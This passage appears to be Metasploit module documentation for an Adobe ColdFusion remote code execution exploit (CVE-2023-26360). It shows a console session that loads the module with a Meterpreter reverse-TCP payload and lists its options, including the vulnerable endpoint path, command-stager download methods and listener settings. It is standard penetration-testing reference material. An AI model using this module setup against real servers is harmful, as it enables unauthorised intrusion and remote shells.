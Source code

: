 ## Scenarios
### Generic Java (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > show options

Module options (exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360):

   Name          Current Setting      Required  Description
   ----          ---------------      --------  -----------
   CFC_ENDPOINT  /cf_scripts/scripts  yes       The target ColdFusion Componen
                 /ajax/ckeditor/plug            t (CFC) endpoint
                 ins/filemanager/ied
                 it.cfc
   CF_LOGFILE    ../logs/coldfusion-  yes       The target log file, relative
                 out.log                        to the wwwroot folder.
   Proxies                            no        A proxy chain of format type:h
                                                ost:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https:
                                                //docs.metasploit.com/docs/usi
                                                ng-metasploit/basics/using-met
                                                asploit.html
   RPORT         8500                 yes       The target port (TCP)
   SSL           false                no        Negotiate SSL/TLS for outgoing
                                                 connections
   SSLCert                            no        Path to a custom SSL certifica
                                                te (default is randomly genera
                                                ted)
   URIPATH       /                    no        The URI to use for this exploi
                                                t
   VHOST                              no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic Java

```